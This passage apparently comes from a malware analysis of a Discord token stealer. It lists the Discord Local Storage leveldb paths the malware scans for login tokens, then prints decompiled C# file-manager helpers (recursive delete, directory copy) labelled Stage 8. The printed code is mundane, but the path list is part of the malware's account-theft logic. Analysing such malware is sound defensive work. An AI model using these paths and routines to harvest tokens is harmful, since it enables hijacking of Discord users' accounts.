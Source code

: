 - Paths scanned for token data and leveldb files:
    - `Discord\Local Storage\leveldb`
    - `Discord PTB\Local Storage\leveldb`
    - `Discord Canary\leveldb`

# Stage 8: File Manager

```csharp
using System;
using System.IO;
using System.Linq;

namespace Helpers
{
	// Token: 0x02000006 RID: 6
	internal sealed class Filemanager
	{
		// Token: 0x06000012 RID: 18 RVA: 0x00002E44 File Offset: 0x00001044
		public static void RecursiveDelete(string path)
		{
			DirectoryInfo directoryInfo = new DirectoryInfo(path);
			bool flag = !directoryInfo.Exists;
			if (!flag)
			{
				foreach (DirectoryInfo directoryInfo2 in directoryInfo.GetDirectories())
				{
					Filemanager.RecursiveDelete(directoryInfo2.FullName);
				}
				directoryInfo.Delete(true);
			}
		}

		// Token: 0x06000013 RID: 19 RVA: 0x00002E98 File Offset: 0x00001098
		public static void CopyDirectory(string sourceFolder, string destFolder)
		{
			try
			{
				bool flag = !Directory.Exists(destFolder);
				if (flag)
				{
					Directory.CreateDirectory(destFolder);
				}
				string[] files = Directory.GetFiles(sourceFolder);
				foreach (string text in files)
				{
					string fileName = Path.GetFileName(text);
					string text2 = Path.Combine(destFolder, fileName);
					File.Copy(text, text2);
				}
				string[] directories = Directory.GetDirectories(sourceFolder);
				foreach (string text3 in directories)
				{
					string fileName2 = Path.GetFileName(text3);
					string text4 = Path.Combine(destFolder, fileName2);
					Filemanager.CopyDirectory(text3, text4);
				}
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
		}

```